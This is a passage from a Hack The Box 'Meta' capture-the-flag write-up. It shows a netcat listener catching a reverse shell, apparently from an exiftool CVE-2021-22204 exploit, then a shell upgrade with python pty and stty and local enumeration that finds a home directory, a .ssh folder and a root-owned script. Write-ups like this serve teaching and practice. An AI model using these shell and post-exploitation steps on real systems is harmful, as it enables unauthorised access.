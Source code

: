 Switch to our listener to see we're connected:

```sh
┌──(root💀kali)-[~/htb/meta]
└─# nc -nlvp 1337  
listening on [any] 1337 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.140] 40330
$
```

Upgrade shell before we look around:

```text
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ^Z
zsh: suspended  nc -nlvp 1337
┌──(root💀kali)-[~/CVE-2021-22204-exiftool]
└─# stty raw -echo; fg
[1]  + continued  nc -nlvp 1337
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ export TERM=xterm
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ stty rows 51 cols 237
```

We're just a low level service account:

```text
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

There is only one user:

```text
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ls -lsa /home
4 drwxr-xr-x  6 thomas thomas 4096 Jan 23 04:11 thomas
```

The user flag is in there but we haven't get rights to read it:

```text
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ls -lsa /home/thomas/
<SNIP>
4 drwx------ 2 thomas thomas 4096 Jan  4 10:22 .ssh
4 -rw-r----- 1 root   thomas   33 Jan 20 15:38 user.txt
```

Interesting that there is a .ssh folder in here, that is suspicious so remember it for later.

## Discovered Bash Script

Before pulling LinPEAS over I usually have a quick look round. On CTF one easy way to find files planted is to look by creation date.[This](https://www.cyberciti.biz/faq/linux-unix-osxfind-files-by-date/) is a good guide of the many options. I did a search for new file from 1st of Jan:

```text
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ find /usr/ -type f -newermt '2022-01-01' -ls
 152500   4 -rwxr-xr-x   1 root   root   126 Jan  3 10:13 /usr/local/bin/convert_images.sh
```
